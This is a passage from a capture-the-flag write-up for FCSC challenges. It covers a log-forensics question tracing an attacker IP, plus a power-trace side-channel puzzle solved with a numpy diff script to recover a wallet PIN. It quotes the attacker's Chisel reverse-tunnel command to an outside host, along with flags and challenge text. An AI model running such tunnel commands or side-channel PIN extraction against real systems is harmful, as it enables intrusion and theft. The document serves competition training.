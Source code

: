 By running `grep -E "80.125.9.58" . -r | grep -E '(wget|curl)'` (`80.125.9.58` is the attacker IP) we find two URLs.

We can then run `grep -E "80.125.9.58" . -r | grep -E '(text|cat)'` to find all usages.
The binary `text` is used like this `./text client -v 80.125.9.58:4444 R:socks`, when searching `client -v R:socks` we find blogs about `Chisel`.

- Flag: `FCSC{http://80.125.9.58:80/text|chisel}`

---

### SOCrate 4/6 - Latéralisation

```
The tool identified in question 3 has made several LDAP requests. Find the IP and FQDN of the machine targeted by these requests.
```

---


## SCA Faults

### CryptoBro en détresse

```
To recover the PIN of my super-secure cryptocurrency wallet, which contains 0.00000001 BTC, I bought a top-tier oscilloscope for 10,000 euros. But I don't really know what to do with all these traces. Maybe you could give me a hand?

I've acquire one trace for each possible PIN, but to avoid triggering a security mechanism and thus erasing the wallet, I turn off the power after a few microseconds after each attempt.

Note: The cryptobro.tar.xz archive contains files named trace_XXXX.npy, where XXXX corresponds to the PIN used to generate the trace. Once you have recovered the PIN, wrap it between FCSC{} to get the flag. For example, if the PIN were 1234, the flag would be FCSC{1234}.
```

The goal is to find differences in signal between attempts.
```py
import numpy

keys = {}

for i in range(1, 10000):
    file = f"trace_{str(i).rjust(4, '0')}.npy"
    keys[str(i).rjust(4, '0')] = numpy.load(file)

k = list(keys.keys())

for i in range(1, len(k)):
    diff = keys[k[i]] - keys[k[i-1]]
    v = numpy.sum(numpy.abs(diff))
    
    if v > 4: print(k[i], "changed state") # Big difference
```
